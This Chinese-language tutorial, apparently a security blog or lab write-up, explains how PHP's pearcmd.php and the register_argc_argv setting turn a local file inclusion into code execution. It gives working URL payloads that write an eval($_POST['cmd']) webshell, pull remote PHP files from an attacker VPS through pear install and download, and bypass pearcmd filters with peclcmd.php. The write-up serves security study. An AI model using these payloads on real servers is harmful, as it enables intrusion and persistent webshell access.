0x01 环境准备
- 安装php
apt-get install php7.4- 安装pear
apt-get install php-pear不过这里搭环境有点费劲，最终还是选择docker吧，这里直接拉取php-7.4:apache运行即可
0x02 前置知识
pecl是PHP中用于管理扩展而使用的命令行工具，而pear是pecl依赖的类库。在7.3及以前，pecl/pear是默认安装的；
在7.4及以后，需要我们在编译PHP的时候指定–with-pear才会安装。在命令行下可以用pear或php
/usr/local/lib/php/pearcmd.php运行，虽然不是在web的目录下，但是如果存在文件包含漏洞，我们就可以运行这个命令行工具
不过，在Docker任意版本镜像中，pcel/pear都会被默认安装，安装的路径在/usr/local/lib/php。
要利用这个pearcmd.php需要满足几个条件：
（1）.要开启register_argc_argv这个选项在Docker中是自动开启的
（2）.要有文件包含的利用
我们再来看一下pearcmd.php可以接受哪些命令
Commands:
build Build an Extension From C Source
bundle Unpacks a Pecl Package
channel-add Add a Channel
channel-alias Specify an alias to a channel name
channel-delete Remove a Channel From the List
channel-discover Initialize a Channel from its server
channel-info Retrieve Information on a Channel
channel-login Connects and authenticates to remote channel server
channel-logout Logs out from the remote channel server
channel-update Update an Existing Channel
clear-cache Clear Web Services Cache
config-create Create a Default configuration file
config-get Show One Setting
config-help Show Information About Setting
config-set Change Setting
config-show Show All Settings
convert Convert a package.xml 1.0 to package.xml 2.0 format
cvsdiff Run a "cvs diff" for all files in a package
cvstag Set CVS Release Tag
download Download Package
download-all Downloads each available package from the default channel
info Display information about a package
install Install Package
list List Installed Packages In The Default Channel
list-all List All Packages
list-channels List Available Channels
list-files List Files In Installed Package
list-upgrades List Available Upgrades
login Connects and authenticates to remote server [Deprecated in favor of channel-login]
logout Logs out from the remote server [Deprecated in favor of channel-logout]
makerpm Builds an RPM spec file from a PEAR package
package Build Package
package-dependencies Show package dependencies
package-validate Validate Package Consistency
pickle Build PECL Package
remote-info Information About Remote Packages
remote-list List Remote Packages
run-scripts Run Post-Install Scripts bundled with a package
run-tests Run Regression Tests
search Search remote package database
shell-test Shell Script Test
sign Sign a package distribution file
svntag Set SVN Release Tag
uninstall Un-install Package
update-channels Update the Channel List
upgrade Upgrade Package
upgrade-all Upgrade All Packages [Deprecated in favor of calling upgrade with no parameters]
Usage: pear [options] command [command-options] <parameters>
Type "pear help options" to list all options.
Type "pear help shortcuts" to list all command shortcuts.
Type "pear help version" or "pear version" to list version information.
Type "pear help <command>" to get the help for the specified command.2.1 原理
php的pear扩展是一个命令行扩展管理工具，默认的安装路径在/usr/local/lib/php/pearcmd.php，在命令行下可以用pear或php /usr/local/lib/php/pearcmd.php运行，虽然不是在web的目录下，但是如果存在文件包含漏洞，我们就可以运行这个命令行工具
我们再来看register_argc_argv选项，在这个选项字段如果选了ON的话，URL中?后面的内容会全部传入至$_SERVER['argv']这个变量内，无论后面的内容是否有等号。
pear会在pearcmd.php获取命令行参数
// 这一行代码设置 PEAR 命令的前端类型为 CLI。这意味着接下来的 PEAR 命令将在命令行界面中执行。
PEAR_Command::setFrontendType('CLI');
//这一行获取所有可用的 PEAR 命令
$all_commands = PEAR_Command::getCommands();
//读取 PHP 的命令行参数，并将其存储在 $argv 变量中。这是为了获取用户在命令行中输入的参数。
$argv = Console_Getopt::readPHPArgv();
// fix CGI sapi oddity - the -- in pear.bat/pear is not removed
if (php_sapi_name() != 'cli' && isset($argv[1]) && $argv[1] == '--') {
unset($argv[1]);
$argv = array_values($argv);
}上面的if代码块处理 CGI sapi 的特殊情况。如果当前的 PHP 运行环境不是 CLI（Command Line Interface），并且 $argv 中的第二个参数是 '--'，则移除这个 '--' 参数。这可能是为了处理在 CGI 环境下调用 PEAR 命令时的一些特殊情况。而pear获取命令行参数的函数Consoles/Getopt.php->readPHPArgv()中
public static function readPHPArgv()
{
global $argv;
if (!is_array($argv)) {
if (!@is_array($_SERVER['argv'])) {
if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
$msg = "Could not read cmd args (register_argc_argv=Off?)";
return PEAR::raiseError("Console_Getopt: " . $msg);
}
return $GLOBALS['HTTP_SERVER_VARS']['argv'];
}
return $_SERVER['argv'];
}
return $argv;
}会先尝试$argv变量（这个变量储存在命令行模式下运行php脚本时传入的参数），然后再尝试$_SERVER['argv']变量，$_SERVER['argv']为我们可控的变量，这样，在文件包含的场景下，我们就可以运行pear命令行工具并用GET请求参数控制pear的命令行参数了。
$_SERVER[‘argv’]所获取的数组，就是在命令行模式下argv[0]是脚本名，后边依次为参数
2.2 register_argc_argv
php.ini默认为off，（当下载的php中不存在php.ini时，默认为On)。
- cli模式
不需要开启php.ini，即可通过$_SERVER[‘argv’]获取命令行参数，和cmd一样

- web模式
在web模式下必须在php.ini开启register_argc_argv配置项
设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果
这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]
cli模式下的argv在web模式下不适用该变量是对queryString以+号进行切割，而不是&


2.3 register_argc_argv和pear的联系
#!/bin/sh
# first find which PHP binary to use
if test "x$PHP_PEAR_PHP_BIN" != "x"; then
PHP="$PHP_PEAR_PHP_BIN"
else
if test "/usr/bin/php" = '@'php_bin'@'; then
PHP=php
else
PHP="/usr/bin/php"
fi
fi
# then look for the right pear include dir
if test "x$PHP_PEAR_INSTALL_DIR" != "x"; then
INCDIR=$PHP_PEAR_INSTALL_DIR
INCARG="-d include_path=$PHP_PEAR_INSTALL_DIR"
else
if test "/usr/share/php" = '@'php_dir'@'; then
INCDIR=`dirname $0`
INCARG=""
else
INCDIR="/usr/share/php"
INCARG="-d include_path=/usr/share/php"
fi
fi
exec $PHP -C -q $INCARG -d date.timezone=UTC -d output_buffering=1 -d variables_order=EGPCS -d open_basedir="" -d safe_mode=0 -d register_argc_argv="On" -d auto_prepend_file="" -d auto_append_file="" $INCDIR/pearcmd.php "$@"pear本质上就是个sh文件，上面是文件内容。
重点就是当执行了pear时，会将$_SERVER[‘argv’]当作参数一起执行，从而自动拉取了指定的php文件
2.4 利用方法
当有存在有限制的文件包含漏洞时，利用该漏洞，先远程拉取恶意文件到/tmp等权限要求低的目录下，再利用文件包含
利用前提
1.开启了register_argc_argv
2.要有pear管理包
3.无basedir的限制
4.允许包含php文件
0x03 漏洞利用
下面是测试文件代码
<?php
include($_GET['file']);
?>这其中的file参数就是用来包含pearcmd.php文件的，以便可以将我们的恶意命令接受并执行
3.1 config-create
此方法来自于p神博客
此命令的参数和用法如下：
config-create: must have 2 parameters, root path and filename to save as阅读其代码和帮助，可以知道，这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。
可以直接往web目录写入webshell，也可以往/tmp/目录写入任意文件名任意内容，然后通过文件包含去包含，在docker环境中pcel/pear都会被默认安装，安装的路径在/usr/local/lib/php（但不同系统的路径可能不同）
尝试一下使用以下这个命令看下效果
pear config-create /114514whatever /tmp/test.txt
不过这里疑惑为何test.txt文件内容是这样的，在阅读了上述p神的文章发现，这里估计是在执行第一个参数后所产生的结果被序列化存储了（估计是session文件）之后被我们的命令行放入到了test.txt文件中而已。
那根据上面我们知道第一个参数的内容会被写入文件，如果我们将第一个参数换成文件内容的话我们就可以写入可包含的文件了
payload：
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
蚁剑连接看看，如下图成功链接

我们来看下写入的文件

可以看见/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>整个被作为参数传入了命令行，但是get参数
file被正常解析了，这是因为前面说过的即使URL中存在等号，问号后的内容一样会被传入$_SERVER['argv']
3.2 install
此方法来自jrXnm师傅的博客
先来看看install的常规用法：vps上挂了一个php文件
<?php
phpinfo();
?>然后通过pear下载
pear install http://[vps]:[port]/flag.php结果：

可以看到成功下载
结果在/tmp/pear/download/目录下有一个flag.php

然后install有--installroot这个选项可以指定他的安装目录，这里可以构造payload远程下载我们的文件了
http://localhost:3354/?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://[vps]:[port]/flag.php
如上图成功包含
3.3 download
先查看一下download的用法
pear download [option] [package]
#这里的option只有一个-Z, --nocompress，下载一个未压缩的tar包尝试一下下恶意的php文件

虽然提示下载错误，但是在当前目录下直接留下了恶意文件。
我们可以尝试一下利用这个download
我构造的payload为
?file=/usr/local/lib/php/pearcmd.php&+download+http://vps/shell.php
然后直接访问shell，成功
?file=/usr/local/lib/php/pearcmd.php&+download+http://vps/shell.php
0x04 过滤percmd
如果pearcmd关键词被ban怎么半，其实可以用peclcmd.php来代替，在这个php文件当中其实就是引入了pearcmd.php
if ('/www/server/php/52/lib/php' != '@'.'include_path'.'@') {
ini_set('include_path', '/www/server/php/52/lib/php');
$raw = false;
} else {
// this is a raw, uninstalled pear, either a cvs checkout, or php distro
$raw = true;
}
define('PEAR_RUNTYPE', 'pecl');
require_once 'pearcmd.php';0x05 参考文章
Docker PHP裸文件本地包含综述 – p神！